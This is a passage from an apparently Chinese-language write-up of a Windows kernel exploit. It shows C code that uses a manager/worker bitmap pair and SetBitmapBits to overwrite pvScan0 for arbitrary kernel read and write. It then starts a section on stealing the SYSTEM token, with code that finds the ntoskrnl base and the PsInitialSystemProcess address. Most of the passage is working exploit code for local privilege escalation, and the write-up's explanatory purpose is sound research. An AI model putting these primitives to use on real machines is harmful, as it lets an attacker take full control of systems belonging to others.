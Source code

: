 接下来,被溢出的bitmap object(manager)地址已经被计算出，记住0xbc0大小的region object，所以在检索最后一步设置获取的地址的最低字节为0xc0，第二低字节加0xb，就会得到第二个bitmap object(worker)的地址。

```C
addr1[0] = 0xc0;
int y = addr1[1];
y = y + 0xb;
addr1[1] = y;
```

然后，manager bitmap object使用SetBitmapBits用region header的地址覆盖worker bitmap object的pvScan0成员。然后worker bitmap object 与SetBitmapBits一起使用，将这个地址指向的数据设置为第一步中读取的头数据;对溢出的bitmap object header执行同样的操作。

```C
void SetAddress(BYTE* address) {
	for (int i = 0; i < sizeof(address); i++) {
		bits[0xdf0 + i] = address[i];
	}
	SetBitmapBits(hManager, 0x1000, bits);
}

void WriteToAddress(BYTE* data) {
	SetBitmapBits(hWorker, sizeof(data), data);
}

SetAddress(addr1);
WriteToAddress(Gh05);
```

## 0x7 Stealing SYSTEM Process Token from the EPROCESS structure

进程首先获得PsInitialSystemProcess的内核地址，它是指向EPROCESS列表中的第一个条目的指针，该指针由ntoskrnl.exe导出。

```C
// Get base of ntoskrnl.exe
ULONG64 GetNTOsBase()
{
	ULONG64 Bases[0x1000];
	DWORD needed = 0;
	ULONG64 krnlbase = 0;
	if (EnumDeviceDrivers((LPVOID *)&Bases, sizeof(Bases), &needed)) {
		krnlbase = Bases[0];
	}
	return krnlbase;
}

// Get EPROCESS for System process
ULONG64 PsInitialSystemProcess()
{
	// load ntoskrnl.exe
	ULONG64 ntos = (ULONG64)LoadLibrary("ntoskrnl.exe");
	// get address of exported PsInitialSystemProcess variable
	ULONG64 addr = (ULONG64)GetProcAddress((HMODULE)ntos, "PsInitialSystemProcess");
	FreeLibrary((HMODULE)ntos);
	ULONG64 res = 0;
	ULONG64 ntOsBase = GetNTOsBase();
	// subtract addr from ntos to get PsInitialSystemProcess offset from base
	if (ntOsBase) {
		ReadFromAddress(addr - ntos + ntOsBase, (BYTE *)&res, sizeof(ULONG64));
	}
	return res;
}
```
